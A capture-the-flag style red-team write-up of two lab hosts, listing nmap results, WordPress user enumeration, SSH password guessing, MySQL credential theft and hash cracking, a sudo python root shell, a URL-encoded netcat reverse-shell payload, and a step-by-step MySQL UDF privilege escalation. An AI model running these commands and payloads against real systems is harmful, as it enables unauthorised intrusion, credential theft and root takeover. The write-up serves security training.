# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 11:24 PDT
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33174/tcp   status
|   100024  1          41697/udp   status
|   100024  1          43643/tcp6  status
|_  100024  1          46476/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on Port 22 verison 6.7p1
  - HTTP Apache Server on Port 80  version 2.4.10  
  - RPC on Port 111 
  - SMBD on Port 139 version 3.x -4.x
  - SMBD on Port 445 version 4.2.14

The following vulnerabilities were identified on target 1:
- Target 1
  - Weak Passwords
    
   - Easy to crack and guess  
  
  - Exposed MYSQL credentials inside of file
  
  - User is able to run Python as Root 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  -  flag1{b9bbcb33e11b80be759c4e844862482d} 
    - Used google inspect element to find the flag hidden in the code


  flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  
  I used WPSCAN to Enumerate user Michael and Steven 
  
  Command:  `WPSCAN -url 192.168.1.110 --enumerate u`
  
  ![wp-scan](/Images/WP-scan.png)
   
   - Used  basic Brute force to SSH into Michael's user
   - Weak Password used (michael)
      
     Command:  `
      ssh michael@192.168.1.110
      `
      
    -found flag inside of `/var/www/html/ `
    -screenshot here
    
    
   -  flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   - Foound exposed mysql credentials inside of /var/www/html/wordpress/wp-config.php

![exposed sql server creds](/Images/sqlcreds.png)

    - mysql -u root -p
    - Found user password hashes after running:
      - select * from wp_users; 
      
![user password hashes](/Images/hashes.png)

    - cracked password hashes with john 
 
 ![john](Images/john.png)
 
    - Found flag3 after running
     select * from wp_posts;
  
  ![flag1-3](Images/flag31.png)
  
    
   - flag4:715dea6c055b9fe3337544932f2941ce}
   - logged into steven with password pink367 
  
   - ran sudo -l to see stevens permissions
   
   
    
    - We can run python as sudo so we can create shell as root with python
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
    -sudo python -c 'import pty; pty.spawn("/bin/sh")'
    - screen shot 
     
     
    ## Target 2
    
    ###Enumeration
    
    - nmap -sC -sV 192.168.1.115
    
    - nitko -C all -h 192.168.1.115 
   
  ## The following vulnerabilities were identified on target 2:

   - Public facing web pages giving away system version and potential exploits
    
   - Easy to crack and guess  
   
   - Version is sensitive to backdoor exploit
  
  - Exposed MYSQL credentials inside of file
  
  - SQL is sensitive to UDF Dynamic Library Priveledge Escalation E-DB:1518 https://www.exploit-db.com/exploits/1518
  
  ### Exploitation
  
  #### flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    
  First I enumerated directories with Gobuster 
  
  
  Then I found a vendor directory and found a flag inside ofthe PATH file
  
  - flag2{6a8ed560f0b5358ecf844108048eb337}
    -found information on version
    -screenshot 
    -found information on cves 
    -usew the backdoor exploit on the phpmailer 
    -gainer reverse shell on netcat 
      -used a url encoded reverse shell
      -cmd=nc%20<192.168.1.115>%204444%20-e%20/bin/bash
      -screenshot 
      -traversed directories and found flag2
    
  -flag 3 flag3{a0f568aa9de277887f37730d71520d9b}
  -find /var/www -type f -iname 'flag*'
  -this leads us to a png file 
  - we setup a simple http server insid the directory of the flagto download to the file to my attacking machine
  - python -m SimpleHTTPServer 8080 
  - wget http://192.168.1.115/flag3 

 ### Priviledge Escalation
   - `flag4{df2bc5e951d91581467bb9a2a8ff4425}`
   - `signed into mysql with credentials from last activity`
   - `enumerated the mysql for version number`
   - after running linenum and outside research I foudn the machine is vulnerable to udf dynamic library exploit 1518.c
   - `searchsploit –m 1518.c`
   - `gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc`
   - setup python simple server to transfer 1518.so payload to ovictim machine
      - `Python3 -m http.server`
      -  transfer into /tmp directory
   - `mysql -u root -p`
   - `use mysql; create table poo(line blob);`
   - `insert into poo values(load_file('/tmp/1518.so'));`
   - `select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
   - `create function do_system returns integer soname '1518.so';`
   - `select do_system('chmod u+s /usr/bin/find');`
   - now we head back to the /tmp directory
   - ```touch raj
     find raj –exec "whoami" \;
     find raj –exec "/bin/sh" \;
     cd /root
      ls
     cat flag4.txt`
   
